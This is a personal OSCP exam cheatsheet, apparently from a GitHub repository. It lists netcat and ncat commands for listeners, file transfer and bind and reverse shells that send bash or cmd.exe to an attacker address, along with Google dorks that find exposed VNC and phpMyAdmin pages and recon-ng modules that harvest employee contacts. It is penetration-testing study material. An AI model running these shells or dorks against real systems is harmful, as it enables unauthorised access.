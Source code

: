 # OSCP
Cheatsheet for my OSCP labs / exam.

# Index

- [Introduction](#introduction) 

# Content

### ============================================================
### Introduction
### ============================================================


### ============================================================
### Essential Tools
### ============================================================

**Netcat**  
Basics
```bash
nc -nlvp [port]          # set up listener
nc -nv [IP] [port]       # banner grabbing OR connect to remote port
```
File Transfer
```bash
nc -nlvp [port] > incoming.exe          # VIC: set up listener, direct data to incoming.exe
nc -nv [IP] [port] < /path/to/wget.exe  # ATT: push wget.exe file to VIC
```
Bind Shell: bind executable (e.g. cmd.exe) to a local port (typically victim machine)
```bash
nc -nlvp [port] -e cmd.exe  # VIC: set up listener + bind cmd.exe to local port
nc -nv [VIC IP] [port]   # ATT: attacker connects and is presented with cmd prompt
```
Reverse Shell: victim box connect to attacker box
```bash
nc -nvlp [port]                       # ATT: attacker set up listener
nc -nv [ATT IP] [port] -e /bin/bash   # VIC: attacker sends reverse shell to their box
```

**Ncat**  
Ncat is an improved version of the Netcat tool, with SSL encryption + ability to whitelist access to specific IP's.

Secure Bind Shell:
```bash
ncat -lvp 4444 -e cmd.exe --allow [IP] --ssl   # Box A: set up listener, allow on connections from only IP, SSL-encrypted.
ncat -v 10.11.14.143 4444 --ssl                # Box B: connect to Box A, SSL-encrypted.
```

**Tcpdump**

Analyse traffic from file (.pcap etc.) + show data in hex and ASCII
```bash
tcpdump -nX -r filename.pcap
```

Analyse and filter traffic:
```bash
tcpdump -n src host 172.16.40.10 -r password_cracking_filtered.pcap   # src filter
tcpdump -n dst host 172.16.40.10 -r password_cracking_filtered.pcap   # dest filter
tcpdump -n port 81 -r password_cracking_filtered.pcap                 # port filter
```


### ============================================================
### Passive Info Gathering
### ============================================================

**Google Hacking**

More with Google Hacking Database https://www.exploit-db.com/google-hacking-database/

```bash
site:"microsoft.com" -site:"www.microsoft.com"            # list subdomains of Microsoft.com
site:"microsoft.com" filetype:ppt "penetration testing"   # list .ppt files with term "penetration testing"
intitle:"VNC viewer for Java"                             # list pages with a open VNC access pages
inurl:"/control/userimage.html"                           # list pages which contain file "/control/userimage.html"
inurl:.php? intext:CHARACTER_SETS,COLLATIONS intitle:phpmyadmin # list pages with post-authenticated db admin page.
```

**Recon-ng**

Basic usage:
```bash
recon-ng                                # access recon-ng
use recon/path/to/module                # use module
set SOURCE uber.com                     # set source target
run                                     # run module
```

Some useful modules:
```bash
recon/domains-contacts/whois_pocs       # find employee names and email addresses
recon/domains-vulnerabilies/xssed       # find existing XSS vulnerabilities
recon/domains-hosts/google_site_web     # find subdomains via. Google search
```

### ============================================================
### Active Info Gathering
### ============================================================

**DNS Enumeration**


